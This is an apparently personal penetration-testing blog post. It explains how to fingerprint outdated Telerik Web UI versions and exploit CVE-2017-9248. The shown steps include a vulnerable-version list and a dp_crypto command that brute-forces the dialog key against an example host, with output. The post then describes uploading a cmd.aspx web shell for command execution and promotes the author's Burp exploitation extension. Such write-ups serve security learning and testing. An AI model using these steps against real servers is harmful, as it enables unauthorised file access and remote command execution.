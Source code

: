```yaml
---
layout: post
title:  "Pwning Web Applications via Telerik Web UI"
date:   2018-08-03
categories: pentest
---
```


## Introduction 

Over the past 3 months, I’ve encountered a number of web applications that were using Telerik Web UI components for their application’s interface. There’s nothing wrong with using third party component to make your application’s interface the way you want it. However, a vulnerability in this component could cause you harm. 


In this post, I’m going to show you how I pwned several web applications, specifically ASP.NET ones, by abusing an outdated version of Telerik Web UI.  

## Identification

The simplest way to check if the application is using Telerik Web UI is to view its HTML source code just like here. 
![Source1](/static/img/10/01.png)
_**TIP #1:** There are times where you’ll not find exactly the string `Telerik.Web.UI` from the HTML code. However, if you find the string `Telerik`, just keep on browsing the other pages of the application and search for the string `Telerik.Web.UI` again._


If you’ve identified that the application is using Telerik Web UI, the next step is to identify the version of Telerik Web UI and check if it’s vulnerable to [**CVE-2017-9248**](https://www.telerik.com/support/kb/aspnet-ajax/details/cryptographic-weakness).  
Finding the version can either be easy or tricky. To get the exact version, just view the HTML code again. In the case below, the version information sits right next to the string `Telerik.Web.UI`. That’s easy.
![Source2](/static/img/10/02.png)

However, there are cases where the version is not located right next to the string “**Telerik.Web.UI**”. Another way to identify for the version of Telerik Web UI is by going through the HTML comments just like here. So you could just view the HTML code and search for the string `<!-- 20`.
![Source3](/static/img/10/03.png)

Once you have the version information, cross-reference it with the list of vulnerable versions. Based on the [exploitation tool](https://github.com/bao7uo/dp_crypto) written by Paul Taylor ([@bao7uo](https://twitter.com/bao7uo)), the following versions are affected:
```
2007.1423        2008.31314       2010.31317        2013.1.403        2015.2.729
2007.1521        2009.1311        2011.1315         2013.1.417        2015.2.826
2007.1626        2009.1402        2011.1413         2013.2.611        2015.3.930
2007.2918        2009.1527        2011.1519         2013.2.717        2015.3.1111
2007.2101        2009.2701        2011.2712         2013.3.1015       2016.1.113
2007.21107       2009.2826        2011.2915         2013.3.1114       2016.1.225
2007.31218       2009.31103       2011.31115        2013.3.1324       2016.2.504
2007.31314       2009.31208       2011.3.1305       2014.1.225        2016.2.607
2007.31425       2009.31314       2012.1.215        2014.1.403        2016.3.914
2008.1415        2010.1309        2012.1.411        2014.2.618        2016.3.1018
2008.1515        2010.1415        2012.2.607        2014.2.724        2016.3.1027
2008.1619        2010.1519        2012.2.724        2014.3.1024       2017.1.118
2008.2723        2010.2713        2012.2.912        2015.1.204        2017.1.228
2008.2826        2010.2826        2012.3.1016       2015.1.225        2017.2.503
2008.21001       2010.2929        2012.3.1205       2015.1.401        2017.2.621
2008.31105       2010.31109       2012.3.1308       2015.2.604        2017.2.711
2008.31125       2010.31215       2013.1.220        2015.2.623        2017.3.913
```

## Exploitation

Before jumping to the exploitation, we have to locate first the "Dialog Handler" `Telerik.Web.UI.DialogHandler.aspx`. Most of the time, it’s located at the root directory of the application. If it’s not there, try the sub-directories. To verify if you’ve found the right location, you should see the string `Loading the dialog…` when accessing the dialog handler.
![Loading](/static/img/10/04.png)
_**TIP #2:** Sometimes, the sub-directory where the dialog handler is located (or where Telerik Web UI is located in general) can be found from the HTML source code._

For the exploitation, use the tool written by Paul Taylor which can be downloaded [here](https://github.com/bao7uo/dp_crypto). Credits and big thanks to him for writing this one. Here’s an example of the tool running to bruteforce the key and discover the hidden link to access the **Document Manager** page.
```bash
root@kali:~# python dp_crypto.py -k http://www.example.com/Telerik.Web.UI.DialogHandler.aspx 48 hex 9

dp_crypto by Paul Taylor / Foregenix Ltd
CVE-2017-9248 - Telerik.Web.UI.dll Cryptographic compromise

Attacking http://www.example.com/Telerik.Web.UI.DialogHandler.aspx
to find key of length [48] with accuracy threshold [9]
using key charset [01234567890ABCDEF]

Key position 01: {D} found with 31 requests, total so far: 31
Key position 02: {3} found with 10 requests, total so far: 41
Key position 03: {A} found with 35 requests, total so far: 76
Key position 04: {D} found with 46 requests, total so far: 122
<------------------------ SNIPPED ------------------------>
Key position 45: {B} found with 50 requests, total so far: 1638
Key position 46: {3} found with 36 requests, total so far: 1674
Key position 47: {3} found with 50 requests, total so far: 1724
Key position 48: {F} found with 57 requests, total so far: 1781
Found key: D3AD[redacted]B33F
Total web requests: 1781
2014.3.1024: http://www.example.com/Telerik.Web.UI.DialogHandler.aspx?DialogName=DocumentManager&renderMode=2&Skin=Default&Title=Document%20Manager&dpptn=&isRtl=false&dp=[snipped&redacted]
```

Once we access the discovered link, we can see that we now have access to all the files and folders of the web server. More importantly, we can see that we can upload arbitrary files to the server.
![Document Manager](/static/img/10/05.png)

Here’s an example of the shell **cmd.aspx** file that I uploaded. 
![Shell](/static/img/10/06.png)

And here’s an example of command execution using the uploaded shell.
![Shell Upload](/static/img/10/07.png)

## Telewreck

As part of my learning process, I decided to create a Burp Suite extension that can detect and exploit vulnerable instance of Telerik Web UI. I named it **Telewreck** and is available at [https://github.com/capt-meelo/Telewreck](https://github.com/capt-meelo/Telewreck). 

When running a passive scan, this extension will look for vulnerable versions of Telerik Web UI.
![Passive](/static/img/10/08.png)

Here’s what the tab looks like where you can perform the exploitation.
![Tab](/static/img/10/09.png)

That's it. Feel free to contribute in the development of the tool and report/fix some issues.
